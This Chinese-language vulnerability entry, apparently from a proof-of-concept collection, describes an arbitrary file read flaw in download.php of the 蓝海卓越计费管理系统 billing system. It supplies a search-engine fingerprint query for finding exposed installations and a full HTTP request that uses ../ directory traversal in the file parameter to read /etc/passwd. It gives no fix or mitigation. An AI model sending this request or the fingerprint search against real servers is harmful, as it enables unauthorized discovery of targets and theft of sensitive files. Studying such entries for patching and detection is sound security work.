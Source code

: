 # 蓝海卓越计费管理系统 download.php 任意文件读取漏洞

## 漏洞描述

蓝海卓越计费管理系统 download.php文件存在任意文件读取漏洞，攻击者通过 ../ 遍历目录可以读取服务器上的敏感文件

## 漏洞影响

```
蓝海卓越计费管理系统
```

## 网络测绘

```
title=="蓝海卓越计费管理系统"
```

## 漏洞复现

登录页面如下



![](images/202202101852354.png)



出现漏洞的文件为 download.php ，其中 file参数 存在用户可控



发送如下请求包



```plain
GET /download.php?file=../../../../../etc/passwd HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=qkoqsiilc4dol8s4e9d7ta15g7; mylang=zh_s

Connection: close
```



![](images/202202101852942.png)

## 